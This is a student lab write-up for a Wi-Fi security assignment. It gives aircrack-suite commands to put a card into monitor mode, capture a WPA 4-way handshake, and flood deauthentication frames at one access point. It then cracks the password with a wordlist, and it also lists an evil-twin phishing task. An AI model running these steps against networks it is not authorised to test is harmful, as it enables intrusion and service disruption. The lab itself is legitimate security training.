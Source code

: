 1. Learn the basic working of Wi-Fi and its types with various types of attacks on it.


2. Perform Wi-Fi fingerprinting using Wigile, Inssider, and Kismet.

#### Kismet -

- Put Your Wireless Card in Monitor Mode by using the command `sudo airmon-ng start wlan0`

![image](https://user-images.githubusercontent.com/67383098/230551170-37f0d414-dd18-4c86-b728-5cfbacc2f2d3.png)

- Launch Kismet by using the command `kismet -c wlanomon`

![image](https://user-images.githubusercontent.com/67383098/230552556-1d7bd6a6-bc11-4152-9989-001327bbfb93.png)


![image](https://user-images.githubusercontent.com/67383098/230552480-bdc61d8a-b846-4b13-a472-d352e2c0d806.png)


![image](https://user-images.githubusercontent.com/67383098/230552332-32a6be07-3554-4bff-9661-17fe92d3b727.png)


3. Create an Access point with any Wi-Fi encryption standard and start testing the security of
that connection using any Wi-Fi security testing tools, which should include (Aircrack-Ng,
Wifite, not limited). Try to capture the 4-way handshake using these methods.

![image](https://user-images.githubusercontent.com/67383098/230554024-50eefd46-08d0-4e50-a525-dd92dec5881a.png)

airodump-ng wlan0

![image](https://user-images.githubusercontent.com/67383098/230555155-dc581e48-5db2-4a9d-b319-0dd5f2197e66.png)

Focus Airodump-Ng on One AP on One Channel

airodump-ng --bssid EA:B0:24:9F:4A:50  -c 5 --write WPAcrack wlan0

![image](https://user-images.githubusercontent.com/67383098/230556046-cc586b48-b820-4505-9169-646d9a28cff4.png)

Aireplay-Ng Deauth

aireplay-ng --deauth 100 -a EA:B0:24:9F:4A:50 wlan0

![image](https://user-images.githubusercontent.com/67383098/230556612-09f1a09a-3aa7-49f5-ad7f-7ad0435c226a.png)

![image](https://user-images.githubusercontent.com/67383098/230556884-b437c7ae-6f60-4174-be73-a34409ed85ec.png)




4. After capturing the required files for testing, use dictionary generation and password
cracking tools to crack the Wi-Fi password.
a. You must use an existing word file to crack the password.
b. Also you have to create your dictionary file for cracking the passwords.
c. Keep 3 different types of passwords for your Wi-Fi to test it. Simple, medium, and
complex passwords can be used for testing. Simple can be a dictionary word,
medium can be of dictionary word with some numbers, and complex can be
generated from any password generator online.

Password is `c6dp6m2k`

![image](https://user-images.githubusercontent.com/67383098/230557921-fe84d8c4-95d1-48c9-b34d-eb4152d05847.png)

aircrack-ng WPAcrack-03.cap  -w /usr/share/wordlists/rockyou.txt


When we use a weak password, we can crack it using aircrack-ng

aircrack-ng testt.cap -w /usr/share/wordlists/rockyou.txt

![image](https://user-images.githubusercontent.com/67383098/230582697-1c10599d-ef77-4013-b14d-f184c284929d.png)



5. Use Rouge AP (WifiPhisher) to create an Evil twin, perform a basic phishing attack using this
rouge AP, and document the difference between the two attacks you have performed.


6. Learn the protocol level working of WPA3 and how it differs from WPA2.





Reference Links: [Not Limited]
1. https://github.com/wifiphisher/wifiphisher
2. https://web.stanford.edu/class/ee26n/Assignments/Assignment7.html
3. https://www.wifi-professionals.com/2019/01/4-way-handshake
4. https://nooblinux.com/crack-wpa-wpa2-wifi-passwords-using-aircrack-ng-kali-linux/
5. https://en.wikipedia.org/wiki/IEEE_802.11


